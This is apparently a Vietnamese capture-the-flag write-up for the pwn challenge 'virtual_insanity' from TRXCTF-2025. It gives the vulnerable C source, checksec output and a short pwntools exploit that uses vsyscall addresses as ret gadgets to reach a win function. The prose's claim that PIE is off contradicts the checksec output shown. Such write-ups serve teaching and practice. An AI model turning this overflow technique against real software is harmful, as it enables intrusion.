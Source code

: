 ```yaml
---
title: "TRXCTF-2025"
date: 2024-10-02 00:00:00 +0800
categories: [pwn]
tags: [ret2vdso]
author: "kuvee"
layout: post
toc: true 
---
```



# virtual_insanity

checksec: 

```cs
ploi@PhuocLoiiiii:~/pwn/TRXCTF/chall1/dist/dist$ checksec chall
[*] '/home/ploi/pwn/TRXCTF/chall1/dist/dist/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

- main: chương trình rất ngắn , ta có thể thấy ```bof``` và 1 hàm win rất dễ dàng 

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

- tuy nhiên PIE ở bài này tắt , và ta cũng không có libc leak nên chuyện leak được địa chỉ có lẽ là bất khả thi ở bài này -> đi vào bế tắc 

như ta thấy hình bên dưới sau khi thực thi main xong thì nó sẽ gọi libc_start_main để end chương trình

![here](/assets/images/vdso.png)

- và ở đây giải pháp dự định cho bài này là sử dụng ```vsyscall``` 

1 lời giải thích ngắn gọn về ```vsyscall``` trong linux: 

đọc thêm ở đây [here](https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-3.html)
```cs
vsyscall (Virtual System Call) là một cơ chế trong Linux giúp tăng tốc một số lời gọi hệ thống (syscall) thường được sử dụng, như gettimeofday(), time(), getcpu(), bằng cách cho phép ứng dụng truy cập trực tiếp vào một vùng bộ nhớ cố định thay vì thực hiện một lệnh syscall thông thường (vốn tốn nhiều thời gian hơn do phải chuyển từ chế độ user sang kernel).
```

- ta có thể thấy ta cần padding 2 địa chỉ libc để có thể ghi đè lsb của main -> win 

- và ```vsyscall``` hoạt động cơ bản như 1 ```ret``` gadget


![here](/assets/images/ret2vdso1.png)

exp:

```python
#!/usr/bin/python3

from pwn import *
context.binary = exe = ELF('./chall',checksec=False)

p = process()

vsyscall = 0xffffffffff600000
pl = b'a'*0x28
pl += p64(vsyscall) *2
pl += p8(0xa9)
p.send(pl)


p.interactive()

```

![here](/assets/images/vsyscall.png)
